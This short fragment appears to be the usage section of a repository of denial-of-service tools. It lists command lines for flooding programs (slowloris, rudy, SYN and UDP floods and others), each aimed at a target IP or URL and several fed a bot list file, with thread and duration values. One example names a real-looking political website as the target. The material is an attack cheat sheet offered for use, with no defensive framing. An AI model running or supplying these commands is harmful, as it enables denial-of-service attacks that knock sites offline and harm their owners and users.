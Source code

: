 Ex :

50x 
./50x 192.168.1.1 80 Bot.txt 800 400

rudy 
./rudy http://trump.org/ 1 800 Bot.txt 400 0 100

Slowloris 
./slowloris http://trump.org 400 Bot.txt 800 192.168.1.1

SSYN2
./ssyn2 192.168.1.1 80 4000 100

SUDP
./sudp 192.168.1.1 80 Bot.txt 800 DDOS

SUDP2 
./sudp2 192.168.1.1 80 400 400 100

UDP
./udp 192.168.1.1 80 400 400 400

